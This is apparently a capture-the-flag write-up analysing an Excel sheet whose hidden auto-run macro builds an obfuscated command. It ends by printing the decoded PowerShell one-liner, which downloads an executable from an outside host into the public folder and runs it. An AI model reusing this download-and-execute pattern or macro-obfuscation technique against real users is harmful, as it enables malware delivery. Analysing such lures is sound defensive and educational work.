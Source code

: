 # Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 
![](screenshots/Step1.1.png)


After Enabling the hidden sheets, I was greeted with this awful mess.
![](screenshots/Step1.2.png)
![](screenshots/Step1.3.png)

### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)

After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 
![](screenshots/Step4.1.png)


### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}
